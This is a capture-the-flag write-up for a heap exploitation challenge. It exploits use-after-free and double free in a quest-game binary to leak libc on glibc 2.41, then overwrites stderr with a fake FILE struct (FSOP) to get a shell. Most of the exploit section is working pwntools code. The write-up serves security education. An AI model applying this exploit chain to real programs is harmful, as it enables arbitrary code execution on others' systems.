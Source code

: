 # Free the monsters
##### Challenge author: Lorenzinco

![Preview text](./writeup_media/prompt.png)

The challenge's structure is wrapped in a quest embarking game, the player is required to select some quest from the quest list change his equipment and embark, at any given moment during the preparation it can also check it's statistics.

Playing around with the binary already reveals some vulnerabilities:

```
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 1
Enter weapon name: hammer
Enter weapon attack: 10
Enter weapon defense: 10
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 4
Select equipment to change:
1. Helmet
2. Chest
3. Gloves
4. Waist
5. Legs
6. Weapon
7. Jewel
8. Earing
9. Charm
10. Talisman
11. Kinsect
12. Palico
13. Palamute
> 6
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 2
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 1
Name: Lorenzinco
Level: 1
Weapon: hammer

Attack: 24881791099
Defense: 10668836035454024818
====================================
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
>
```

All of the pointers inside the player's profile do not get set to `NULL` when freed. Given the heap blocks structure, in which the next pointer gets stored in the data section of the current chunk [(click here to find more details about this)](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/), this gives already the ability to leak some heap addresses.

![Preview text](./writeup_media/free.png)

In the same part of the code we can also see that the code does not check whether that pointer was freed already before freeing it, this means we also got a **double free** to play around.

When allocating the chunks we also get to decide that to write in them, since the binary asks for the user to send the name, the attack and the defense of each equipment, conviniently stored inside the chunk.

Now, here comes the first problem: the chunk size. Each chunk is only `0x30` bytes wide. This means that if fill the tcache bins it fill fit right into the fast bin, not inside the unsorted one, which is where we want it to be.

To make a chunk fit into the unsorted bin we must therefore find a way to modify its size, this can be achieved by fast-bin duping, which is filling tcache, double freeing a chunk into a fastbin and change the next address to hit a chunk's metadata, by writing on it we're able to change the size of the chunk itself.

Keep in mind that due to the checks that get done when freeing, `prev_size` should be valid as well as `prev_inuse` flag which needs to be set to `1`.

The libc version is `2.41` therefore each heap pointer is encoded ( same for all libcs past 2.35 ).

```py
#FAKE AN UNSORTED BIN CHUNK TO LEAK LIBC
for i in range(1, 14):
    equip(i, p64(heap>>12)*4, heap>>12, 0)
for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"A", 0, 0)
equip(3, b"A", (heap>>12)^(heap+0x2c0), 0)
for i in range(3):
    equip(3, p64(0)+p64(0x441), 0, 0)
for i in range(6):
    equip(3, b"B", 0, 0)

unequip(2)  
view()
r.recvuntil(b"Attack: ")
r.recvuntil(b"Attack: ")
libc.address = int(r.recvline()) - 0x211b20 # MAIN ARENA
log.info(hex(libc.address))
```

Having retrieved the libc base address now we can take two intended paths:

-   The angry FS-Rop cool as fuck road
-   The boring and lame environ and onegadget path

##### Note: The environ leak requires to be expecially carefull with the pointers inside the heap, when duping a chunk and modifying its next we might break the tcache, preventing us to from doing it again.

That said, i chose to writeup the cool as fuck road which involves writing a fake file pointer on the heap and then overwriting that pointer into `__std_err` (or whatever file pointer, stderr is handy since is not used in the context of this binary).

##### If you have no idea what this means i highly encourage you to read [this](https://blog.kylebot.net/2022/10/22/angry-FSROP/), it contains far more precise and usefull information about fs exploits that i could ever sum up in this writeup.

As said, we are going to overwrite `std_err`:

```py
#OVERWRITE STDERR->CHAIN
for i in range(1, 12):
    equip(i, p64(heap>>12)*4, 0, 0)

for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"\0", 0,0)

equip(3, b"A", (heap>>12)^(libc.sym._IO_2_1_stderr_+0x60), 0)
for i in range(3):
    equip(3, p8(3), 0, heap+0x7a0) # heap pointer to our custom file struct

for i in range(7):
    equip(3, b"\0", 0,0)
```

and write a file struct containing the vtable pointer modified, pwntools has this fancy function to do this automatically called `fsrop()` so we don't have to go through the hassle of filling the vtable offsets ourself, it's like a one gadget.

```py
#WRITE FAKE FP ON THE HEAP
payload = fsrop(heap+0x7a0)+b"\0"*0x200
# redistribute payload among fields
for i in range(7):
    equip(3, payload[16:16+0x20], u64(payload[:8]), u64(payload[8:16]))
    payload = payload[16+0x30:]
```

Note: this payload gets truncated each time a chunk metadata appears on the heap, so some fields of the file struct are goin to be broken and filled with garbage. They are not essential at all so we want to start writing the struct from an offset from which the important part (vtable pointer) is not overwritten with garbage, that is `0x10`.

![Preview text](./writeup_media/gdb_fs.png)

Done! All there's left to do is to trigger `_IO_flush_all` by exiting the binary and we popped a shell!

`TRX{wh0_th3_fuck_kn0w5_4b0u7_f457B1n5?!_153CA0}`